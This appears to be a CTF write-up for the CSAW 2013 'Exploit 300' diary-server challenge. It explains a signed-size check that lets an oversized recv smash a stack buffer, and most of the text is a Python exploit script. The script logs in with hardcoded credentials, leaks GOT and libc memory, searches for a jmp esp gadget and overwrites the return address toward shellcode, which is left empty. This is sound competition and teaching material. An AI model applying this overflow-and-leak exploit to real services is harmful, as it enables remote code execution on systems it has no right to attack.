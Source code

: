 CSAW CTF 2013 - Exploit 300
================================

This challenge is a diary server listening on port 34266. When we first connect it prompt us to enter a password and an username. Both value are hardcoded in the application and can be retrieved through reverse engineering. Username is `csaw2013` and password is `S1mplePWD`.

Once we are logged we are prompt to enter a new entry into the diary. We first enter the size of the entry text message and then we enter the entry content.

The exploit is that the size we send first is then used by `recv` to read our entry into a fixed sized buffer of `0x400` bytes. Note that there is a check to see if the size we provided is below `0x400`, but giving a 2 bytes negative number such a `0xFFFF` would pass the test, but still read `0xFFFF` bytes of data, allowing us to smash the stack and overwrite the return adresse.

Since there were no `jmp esp` instruction in the program, I scanned the libc to find an adresse we could return to that would then jump on the shellcode in the buffer. The exploit script used is:
```
#!/usr/bin/env python

import socket
import sys
import struct
from struct import pack

host = '128.238.66.217'
port = 34266

shellcode = ''

user = 'csaw2013'
pwd = 'S1mplePWD'

def read_until(s, a):
  data = ''
  while data.find(a) == -1:
    data = s.recv(4096)

def connect_to_host():

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))

  read_until(s,'UserName')
  s.send(user)
  read_until(s,'Password')
  s.send(pwd)
  read_until(s,'Entry')
  s.send(str(0xFFFF))

  return s

ret_off = 0x420
def exploit(offset):

  s = connect_to_host()
  print 'connected'
  payload = ('\x55' * ret_off) + pack("I", offset) + '\x90'*32 + shellcode
  s.send(payload)
  print 'payload sent'
  s.close()

def leak(offset, size):

  s = connect_to_host()
  off_send = pack("I", 0x080488B0)

  payload = ('\x55' * ret_off) + off_send

  payload += pack('<I', 0x080487a0) # exit
  payload += pack('<I', 0x4) # fd
  payload += pack('<I', offset)
  payload += pack('<I', size) # len
  payload += pack('<I', 0x40) # flags

  payload += '\x90'*32 + shellcode

  s.send(payload)

  result = ''
  data = True

  while data:
    data = s.recv(1024)
    result += data
  s.close()

  return result

def find_jmp_esp():
  gots = leak(0x0804af80, 4)  # The offset of the got entries.
  print 'gots: %s' % repr(gots)

  libc_guess = struct.unpack('I', gots[:4])[0]
  print 'libc_guess: %s' % hex(libc_guess)

  buf_base = libc_guess - (libc_guess % 0x1000)

  buf = leak(buf_base, 4096)
  while buf:
    print hex(buf_base)
    jmp_esp = buf.find("\xff\xe4")  # jmp esp
    if jmp_esp != -1:
      return buf_base + jmp_esp
    else:
      buf_base += len(buf)
      buf = leak(buf_base, 4096)

  return 0

jmpesp_addr = find_jmp_esp()
print 'jmpesp_addr: ', hex(jmpesp_addr)
exploit(jmpesp_addr)
```
